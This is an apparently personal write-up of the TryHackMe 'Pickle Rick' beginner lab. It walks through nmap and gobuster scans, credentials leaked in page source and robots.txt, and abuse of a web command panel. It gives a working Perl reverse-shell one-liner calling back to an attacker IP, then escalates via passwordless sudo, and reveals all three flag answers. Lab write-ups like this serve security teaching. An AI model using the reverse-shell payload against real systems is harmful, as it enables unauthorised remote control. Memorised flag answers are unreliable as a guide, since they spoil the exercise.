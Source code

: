 # Pickle Rick - TryHackMe CTF
A [Rick and Morty CTF](https://tryhackme.com/r/room/picklerick). Helping turn Rick back into a human!
<br />**Category**: Web Exploitation  
**Difficulty**: Easy  
**Note**: Different IP addresses throughout the CTF is due to restarting the machine.

## Step 1: Initial Reconnaissance (Nmap & Gobuster)
Per usual, begin with scanning machine ports. 
<br />**Nmap Command**: `nmap -T4 -sC -sV -A -p- -oN nmap/initial 10.10.156.56`
<br />**Command Breakdown**:
<br />`-T4` : specifies speed of scan (4)
<br />`-sC` : scans with using Nmap Scripting Engine (NSE)
<br />`-sV` : attempts to identify the version of the services 
<br />`-A` : performs an etensive scan on ports
<br />`-p-` : scans all ports
<br />`-oN nmap/initial` : formats name and parth of the file that Nmap is to save the scan results

### Nmap Scan Results
```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-12 00:22 EST
Nmap scan report for 10.10.156.56
Host is up (0.089s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 65:8a:1a:23:73:b3:1b:94:76:4a:93:44:3c:47:77:b8 (RSA)
|   256 3e:11:f1:e5:34:0d:0b:51:2a:81:39:7e:db:11:09:89 (ECDSA)
|_  256 e3:82:cd:ed:95:51:67:f0:0e:a6:14:f5:54:4a:c4:12 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.41 (Ubuntu)
```
The Nmap scan results show that Port `22` (SSH) is open and running and that Port `80` (HTTP) is open and where we find our web service running. It also tells us that its running an Apache webserver on Ubuntu.

### Second, I ran a Gobuster scan on the website.
**Gobuster Command**: `gobuster dir -u http://10.10.86.166/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,sh,txt,cgi,html,js,css,py`
<br />**Command Breakdown**:
<br />`dir`: specifies directory enumeration.
<br />`-u`: specifies our target
<br />`-w`: path to wordlist being used (directory-list-2.3-medium.txt)
<br />`-x`: specifies the following extentions
<br />`php,sh,txt,cgi,html,js,css,py`: 

### Gobuster Scan Results
```
===============================================================
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/index.html           (Status: 200) [Size: 1062]
/login.php            (Status: 200) [Size: 882]
/assets               (Status: 301) [Size: 313] [--> http://10.10.86.166/assets/]
/portal.php           (Status: 302) [Size: 0] [--> /login.php]
/robots.txt           (Status: 200) [Size: 17]
```
The Gobuster results tell us of a `/robots.txt` directory, a login portal located at `/login.php`, and a viewable assets folder (`/assets`)
## Step 2: Enumeration
Upon looking at the source code of the website we find a comment that leaks some information.
```
  <!--

    Note to self, remember username!

    Username: R1ckRul3s

  -->
```
Upon viewing the contents of the `/robots.txt`, we find the exclusively the text `Wubbalubbadubdub`. The username leaked in the source code and the text in the `/robots.txt` file were valid credentials for the login portal.
### Portal cmd panel
`/portal.php` presents a page with multiple tabs that can only be viewed by the REAL rick. The only one currently accessible is the commands page, that has an interactive command line.
<br />Running `ls -lA` reveals:
```
total 32
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 Sup3rS3cretPickl3Ingred.txt
drwxrwxr-x 2 ubuntu ubuntu 4096 Feb 10  2019 assets
-rwxr-xr-x 1 ubuntu ubuntu   54 Feb 10  2019 clue.txt
-rwxr-xr-x 1 ubuntu ubuntu 1105 Feb 10  2019 denied.php
-rwxrwxrwx 1 ubuntu ubuntu 1062 Feb 10  2019 index.html
-rwxr-xr-x 1 ubuntu ubuntu 1438 Feb 10  2019 login.php
-rwxr-xr-x 1 ubuntu ubuntu 2044 Feb 10  2019 portal.php
-rwxr-xr-x 1 ubuntu ubuntu   17 Feb 10  2019 robots.txt
```
The `Sup3rS3cretPickl3Ingred.txt` clearly stands out here. Upon attempting to open it using `cat` we find out the command is disabled "to make it hard for future PICKLEEEE RICCCKKKK." This is the same for `head`.

However, I could simply browse text files from the webserver. `http://10.10.86.166/Sup3rS3cretPickl3Ingred.txt` This revealed the first ingredient: `mr. meeseek hair`

`clue.txt` contained: `Look around the file system for the other ingredient.`

## Step 3: Reverse Shell!!!
It is now time to attempt to gain a reverse shell connection. Upon running `perl --version` we get this response:
```
This is perl 5, version 30, subversion 0 (v5.30.0) built for x86_64-linux-gnu-thread-multi
(with 60 registered patches, see perl -V for more detail)...
```
Which tells us perl 5 is installed on the system. We can use this information to our advantage in creating a reverse shell connection. Heading over to [Pentest Monkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) to grab a Perl payload. After setting up a `netcat` listner  the following payload worked:
```
perl -e 'use Socket;$i="10.6.12.48";$p=9999;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
After doing some looking around, I discovered the `/home/rick` folder which contained `second ingredients`. After using `cat "second ingredients"` we get our second ingredient: `1 jerry tear`

In search for the final ingredient, which is the final flag of this CTF, I ran `sudo -l` to see what privileges the user had. The response:
```
Matching Defaults entries for www-data on ip-10-10-86-166:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ip-10-10-86-166:
    (ALL) NOPASSWD: ALL
```
This means that I did not need a password to run `sudo` commands. I ran `sudo ls /root/` to view the root user content, where I discovered `3rd.txt`. `sudo cat /root/3rd.txt` returns the content of the `3rd.txt` and our final ingredient: `fleeb juice`

